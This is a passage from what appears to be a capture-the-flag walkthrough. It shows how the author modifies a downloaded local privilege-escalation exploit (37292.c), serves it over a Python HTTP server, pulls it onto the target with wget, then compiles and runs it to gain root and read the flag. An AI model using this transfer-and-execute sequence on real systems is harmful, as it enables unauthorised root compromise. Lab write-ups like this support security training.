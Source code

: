 ![](https://miro.medium.com/v2/resize:fit:1606/0*MVbv-xtUAs6BZpJG.jpeg)

As you can see I downloaded this “.c” file from here. I say it to make our job easier. There is no “gcc” editor to run this “.c” file on the machine we leaked. So we need to make a small change in this “37292.c” file.

![](https://miro.medium.com/v2/resize:fit:2290/0*2VzE_0wP4ay019mC.png)

Normally it read “gcc” at the tip of the red arrow. We set it to “cc”. Please remember to save and exit after setting.

Now let’s transfer this malicious “37292.c” file to the opposite side. This file is currently on our own computer. Let’s set up a server on our own computer to transfer this. I have detailed these stages in my previous articles. Let’s transfer this file.

![](https://miro.medium.com/v2/resize:fit:875/0*1_1Yqc5SawXv6PiF.jpeg)

As you can see, I raised a server on my side thanks to python. I have specified the port of this server as “9876”.

 ``` bash
python -m SimpleHTTPServer <port number>
```

Then put the malicious file “37292.c” under “/ root /” directory. In order to send this file to the opposite computer, that is, to the computer we are trying to infiltrate, to the terminal line on the opposite computer, as you can see in the picture above:

```
wget http://<host ip address>:<host port number>/37292.c
```


The file is currently on the opposite computer. Let’s run this file immediately.

```
 cc 37292.c -o <hack>
```

```
 ./<hack>
```

If we run the above commands in order, we will be root now.

![](https://miro.medium.com/v2/resize:fit:875/0*DjfudfW3KqQUUY19.jpeg)

As you can see my output file was named “hack”. After running it I saw that I am root. Let’s find the flag file.

![](https://miro.medium.com/v2/resize:fit:875/0*5NRsdbJaYkzFGrb9.jpeg)

The flag file is usually under the “/ root /” directory. I went under the root directory and ran the “ls” command. I could not get a printout. But then when I viewed “ls -a” i.e. hidden files, I saw the flag file and succeeded in reading.